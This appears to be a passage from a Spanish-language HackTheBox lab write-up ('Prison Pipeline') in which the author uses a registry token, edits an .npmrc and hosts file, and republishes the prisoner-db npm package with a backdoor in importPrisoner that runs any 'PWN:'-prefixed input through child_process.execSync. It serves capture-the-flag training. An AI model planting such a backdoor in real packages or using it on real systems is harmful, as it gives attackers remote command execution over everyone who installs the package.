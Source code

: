 Para poder autenticarnos con este token vamos ir a la carpeta del codigo que nos proporcionaron donde se encuentra el paquete prisioner-db.

Una vez allí vamos a crear un fichero .npmrc con el siguiente contenido.

![alt text](/assets/img/posts/prisionpipeline_htb/image-2.png)

El puerto debe ser el que nos proporciona acceso a la aplicación.

En nuestro documento hosts añadimos el dominio registry.prison-pipeline.htb a la ip de la aplicación.

![alt text](/assets/img/posts/prisionpipeline_htb/image-3.png)

Verificamos que el token se ha autenticado correctamente.

![alt text](/assets/img/posts/prisionpipeline_htb/image-4.png)

Limpiamos la caché de npm.

```bash
npm cache clean --force
```

Modificamos la función `importPrisoner` para que podamos inyectar comandos al sistema.

```javascript
    async importPrisoner(url) {
        // implement backdoor
        const child_process = require('child_process');
        if (url.includes('PWN:')) {
            try {
                let cmd = url.replace('PWN:', '');
                let output = child_process.execSync(cmd).toString();
                return output;
            }
            catch (error) {
                return 'PWN: Error executing command.';
            }
        }        
        ...SNIP...
    }
```
